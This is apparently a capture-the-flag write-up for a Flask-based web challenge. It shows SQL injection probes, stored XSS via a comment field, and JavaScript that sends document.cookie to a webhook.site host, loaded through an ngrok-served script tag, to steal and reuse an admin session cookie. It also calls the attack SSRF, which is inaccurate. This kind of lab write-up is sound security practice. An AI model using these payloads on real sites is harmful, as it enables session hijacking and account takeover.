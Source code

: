 # Star Wars

Link: [http://challenge.nahamcon.com:32040](http://challenge.nahamcon.com:32040/signin?error=Invalid%20session%20please%20sign%20in)

Date: 16/06/2023

![Untitled](Star%20Wars%20f8260a3e16f341258b2ea78fcd791367/Untitled.png)

Nothing interesting in the source code. I tried some sql injection first manually  `' or 1=1 -- -`  and using `sqlmap` . We can signup. In signup we can enumerate users: using admin:test

![Untitled](Star%20Wars%20f8260a3e16f341258b2ea78fcd791367/Untitled%201.png)

Ok it exists the user admin lets try to use some spaces or special chars: 

- `username=admin%0A&password=test&password2=test`
- `username=admin+&password=test&password2=test`
- `username=+admin&password=test&password2=test`

It does not work, it does not strip/trim the string.

Let’s understand what technologies are used: I get something that should return 404: `GET /test`

![Untitled](Star%20Wars%20f8260a3e16f341258b2ea78fcd791367/Untitled%202.png)

After a basic google search I found that this message is used by popular python framework `Flask.`

After signup and login:

![Untitled](Star%20Wars%20f8260a3e16f341258b2ea78fcd791367/Untitled%203.png)

Clicking on `Read More`

![Untitled](Star%20Wars%20f8260a3e16f341258b2ea78fcd791367/Untitled%204.png)

I can leave a comment, let’s try if it is vulnerable to `XSS`:

- `<script>alert(1)</script>`

It worked! It is vulnerable to XSS.

After I left the comment:

![Untitled](Star%20Wars%20f8260a3e16f341258b2ea78fcd791367/Untitled%205.png)

Let’s use a webhook to understand if it fetches it:

1. Get URL hook from `https://webhook.site`
2. Create a `js` file:
    
    ```powershell
    fetch('https://webhook.site/6c071a00-6bf2-4640-a96d-92ce3c888d6f?cookie=' + cookie, {mode: 'no-cors'})
      .then(response => {
        console.log('Request succeeded with HTTP response code', response.status);
      })
      .catch((error) => {
        console.error('Request failed', error);
      });
    ```
    
3. Serve this file using python+ngrok:
    
    ```powershell
    python -m http.server 6969
    ```
    
    ```powershell
    ngrok http 6969
    ```
    
4. I left this comment:
    
    ```powershell
    <script src="http://e0fa-101-56-73-87.ngrok-free.app"></script>
    ```
    
5. After submit I found that a get request is sent to the webhook with these headers:
    
    ![Untitled](Star%20Wars%20f8260a3e16f341258b2ea78fcd791367/Untitled%206.png)
    

The idea is to steal cookies and send them to the webhook so it is a `SSRF attack`.

Change the js file to:

```powershell
cookie = document.cookie;
fetch('https://webhook.site/6c071a00-6bf2-4640-a96d-92ce3c888d6f?cookie=' + cookie, {mode: 'no-cors'})
  .then(response => {
    console.log('Request succeeded with HTTP response code', response.status);
  })
  .catch((error) => {
    console.error('Request failed', error);
  });
```

And the webhook got this:

![Untitled](Star%20Wars%20f8260a3e16f341258b2ea78fcd791367/Untitled%207.png)

It is the **admin cookie** we can check unsigning it:

![Untitled](Star%20Wars%20f8260a3e16f341258b2ea78fcd791367/Untitled%208.png)

The **id** is **1** different from our previous one (it was 3):

Now let’s inject the cookie using `Application` module of **chrome dev tool:**

![Untitled](Star%20Wars%20f8260a3e16f341258b2ea78fcd791367/Untitled%209.png)

After refresh I had the admin button and the flag:

![Untitled](Star%20Wars%20f8260a3e16f341258b2ea78fcd791367/Untitled%2010.png)

Flag is `flag{a538c88890d45a382e44dfd00296a99b}`